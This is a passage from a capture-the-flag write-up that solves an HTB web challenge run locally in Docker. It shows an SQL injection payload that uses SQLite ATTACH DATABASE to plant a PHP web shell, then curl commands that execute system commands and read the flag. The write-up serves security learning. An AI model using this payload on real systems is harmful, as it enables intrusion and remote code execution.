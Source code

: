 ```bash
challenge ❯ docker run -it web_intergalactic_post /bin/sh
/ # ls
bin                       home                      opt                       sbin                      usr
dev                       lib                       proc                      srv                       var
etc                       media                     root                      sys                       www
flag_1ba447f7597346d.txt  mnt                       run                       tmp
/ # cd www/
controllers/  models/       static/       views/
/ # cd www/static/images/
/www/static/images # ls
logo.png
/www/static/images #
```

Now let us tailor the payload according to our need.

```sql
NehalZaman', 'nehalagain@vimal.pan'); ATTACH DATABASE '/www/static/images/lol.php' AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");-- -
```

Again, we do not have any error on the docker console. 

```bash
challenge ❯ curl 'http://localhost:1337/static/images/lol.php?cmd=ls+-al+/' -o -
�� Itotal 84pwnCREATE TABLE pwn (dataz text)
drwxr-xr-x    1 root     root          4096 May 19 17:58 .
drwxr-xr-x    1 root     root          4096 May 19 17:58 ..
-rwxr-xr-x    1 root     root             0 May 19 17:58 .dockerenv
drwxr-xr-x    2 root     root          4096 Mar 28 19:19 bin
drwxr-xr-x    5 root     root           360 May 19 17:58 dev
drwxr-xr-x    1 root     root          4096 May 19 17:58 etc
-rw-r--r--    1 root     root            27 May 17 12:03 flag_1ba447f7597346d.txt
drwxr-xr-x    1 root     root          4096 May 17 12:02 home
drwxr-xr-x    1 root     root          4096 Mar 28 19:19 lib
drwxr-xr-x    5 root     root          4096 Mar 28 19:19 media
drwxr-xr-x    2 root     root          4096 Mar 28 19:19 mnt
drwxr-xr-x    2 root     root          4096 Mar 28 19:19 opt
dr-xr-xr-x  254 root     root             0 May 19 17:58 proc
drwx------    2 root     root          4096 Mar 28 19:19 root
drwxr-xr-x    1 root     root          4096 May 19 17:58 run
drwxr-xr-x    2 root     root          4096 Mar 28 19:19 sbin
drwxr-xr-x    2 root     root          4096 Mar 28 19:19 srv
dr-xr-xr-x   13 root     root             0 May 19 17:58 sys
drwxrwxrwt    1 root     root          4096 May 19 19:04 tmp
drwxr-xr-x    1 root     root          4096 May 17 12:02 usr
drwxr-xr-x    1 root     root          4096 May 17 12:02 var
drwxr-xr-x    1 www      www           4096 May 17 12:03 www
challenge ❯ curl 'http://localhost:1337/static/images/lol.php?cmd=cat+/flag_1ba447f7597346d.txt' -o -
�� IHTB{f4k3_fl4g_f0r_t3st1ng}n (dataz text)
challenge ❯
```

As you can see, we have achieved RCE here. We can do the same thing on the server to get the flag.

That is all in this challenge. Hope you liked the writeup 🙂